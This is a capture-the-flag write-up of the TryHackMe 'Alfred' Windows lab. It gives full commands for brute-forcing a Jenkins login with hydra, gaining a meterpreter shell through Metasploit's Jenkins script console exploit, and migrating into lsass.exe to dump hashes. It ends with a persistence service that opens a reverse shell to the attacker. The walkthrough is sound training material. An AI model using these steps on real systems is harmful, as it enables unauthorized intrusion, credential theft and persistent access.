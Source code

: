 ```yaml
---
title: Alfred - Easy THM
date: 2023-11-01 12:01:23 +/-0800 
categories: [writeup, tryhackme] 
writeup: :title
permalink: /alfred 
tags: [Command injection]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
python3 threader3000.py

Port 80 is open
Port 3389 is open
Port 8080 is open
```

### Nmap scan
```
nmap -p80,3389,8080 -sV -sC -T4 -Pn -oA 10.10.18.104 10.10.18.104

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
|   Target_Name: ALFRED
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
```
## Enumeration 🤖
### Jenkins enumeration
#### use hydra to brute force login
```
hydra -s 8080 -L $userfile -P $passfile $target_ip http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -f -o rockyou.txt

FOUND: admin:admin
```
## Exploit ⚒️
### Exploit with metasploit
```
use exploit/multi/http/jenkins_script_console

set LHOST 10.8.x.x
set TARGETURI /
set RPORT 8080
set RHOSTS 10.10.x.x
set username admin
set password admin
run

meterpreter >
```
Now that we have a session open, let's elevate our privileges!

## Privilege escalation 👺
### Switch process for more stable meterpreter stable, because my process was on x86 and i need on x64.
#### I'm using lsaas.exe process, so i will be able to dump hash and do more actions for my post-exploit
```
ps 

676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
```
#### Migrate to it
```
meterpreter > migrate 676
```
### Now that we have a stable meterpreter..
#### Let's retrieve user.txt 🤠
```
meterpreter > search -f user.txt

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\bruce\Desktop\user.txt  32            2019-10-25 18:22:36 -0400
```
#### Now root.txt! 😼
```
meterpreter > search -f root.txt

Path                                 Size (bytes)  Modified (UTC)
----                                 ------------  --------------
c:\Windows\System32\config\root.txt  70            2019-10-26 07:36:00 -0400
```
## Post-exploitation 🐼
### Use local persistance module from Metasploit 
#### Creating a new services in windows that will send a revershell
```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set lport <lport>
set lhost <lhost>
set session <id>
```

## Resources 📒
Article: [metasploit-module-for-persistence](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/local/persistence_service)